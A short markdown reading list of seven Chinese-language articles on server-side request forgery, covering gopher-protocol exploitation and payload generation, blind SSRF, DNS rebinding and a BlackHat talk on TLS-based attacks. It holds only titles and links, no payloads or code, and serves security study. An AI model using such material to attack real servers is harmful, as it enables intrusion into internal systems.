- [对万金油gopher协议的理解与应用](https://k-ring.github.io/2019/05/31/%E5%AF%B9%E4%B8%87%E9%87%91%E6%B2%B9gopher%E5%8D%8F%E8%AE%AE%E7%9A%84%E7%90%86%E8%A7%A3%E4%B8%8E%E5%BA%94%E7%94%A8/)
- [无脑生成gopher协议利用payload](https://xz.aliyun.com/t/5844)
- [SSRF在有无回显方面的利用及其思考与总结](https://xz.aliyun.com/t/6373)
- [ssrf圣经](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit)
- [[红日安全]Web安全Day4 - SSRF实战攻防](https://xz.aliyun.com/t/6235#toc-5)
- [BlackHat2020 议题分析之「When TLS Hacks You」](https://mp.weixin.qq.com/s/GT3Wlu_2-Ycf_nhWz_z9Vw)
- [基于 A 和 AAAA 记录的一种新 DNS Rebinding 姿势](https://mp.weixin.qq.com/s/76vkNpZa2Bl4lPFXBHZlxA)

